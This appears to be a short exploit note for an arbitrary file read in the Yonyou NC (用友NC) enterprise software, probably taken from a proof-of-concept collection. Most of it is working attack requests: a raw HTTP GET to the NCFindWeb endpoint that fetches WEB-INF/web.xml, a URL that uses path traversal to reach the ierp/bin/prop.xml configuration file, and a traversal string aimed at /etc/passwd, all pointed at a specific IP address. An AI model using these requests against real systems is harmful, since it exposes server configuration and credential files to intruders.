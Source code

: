 # 用友NC 任意文件读取

    ## Yonyou NC Arbitrary File Include

```
GET /NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml HTTP/1.1
Host: 101.39.241.53:22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

```
http://101.39.241.53:22/NCFindWeb?service=IPreAlertConfigService&filename=../../ierp/bin/prop.xml

../../../../../etc/passwd
```
